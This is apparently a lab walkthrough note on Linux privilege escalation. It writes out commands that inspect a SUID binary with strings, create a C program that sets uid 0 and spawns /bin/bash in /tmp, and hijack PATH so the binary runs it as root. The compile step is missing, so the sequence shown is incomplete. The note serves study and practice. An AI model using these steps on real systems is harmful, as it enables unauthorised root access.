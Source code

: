 ## Escalation via Environmental Variable

To look at enviromnetal variable 

```bash
env
```

![Privilege Escalation](./Image/34.png)

```bash
strings /usr/local/bin/suid-env
```

![Privilege Escalation](./Image/36.png)

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

After

```bash
export PATH=/tmp:$PATH
```

```bash
/usr/local/bin/suid-env
```

![Privilege Escalation](./Image/35.png)
